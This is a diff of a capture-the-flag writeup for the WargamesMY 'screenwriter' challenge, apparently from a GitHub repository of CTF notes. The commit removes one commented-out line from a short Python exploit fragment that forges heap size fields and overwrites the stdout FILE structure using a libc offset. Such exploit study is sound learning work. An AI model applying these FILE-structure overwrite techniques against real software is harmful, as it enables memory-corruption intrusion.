

Before and after one commit to papichulo16/ctf-stuff, a Markdown page: WargamesMYCTF/screenwriter/writeup.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/WargamesMYCTF/screenwriter/writeup.md
+++ b/WargamesMYCTF/screenwriter/writeup.md
@@ -82,7 +82,6 @@ Next I  overwrote (is that how you say it??) the write file structure to point t
 ``` python
     # buf base and buf end overflow on the write stream
     payload = b"A"*0x28 + p64(0x1e1) + b"B"*0x1d8 + p64(0x1e1)
-    #payload = b"A" * 0x208 + p64(0x1e1)
     payload += p64(0xfbad2c84)
     payload += p64(l.sym["_IO_2_1_stdout_"] + libc)
     payload += p64(0) * 5
````
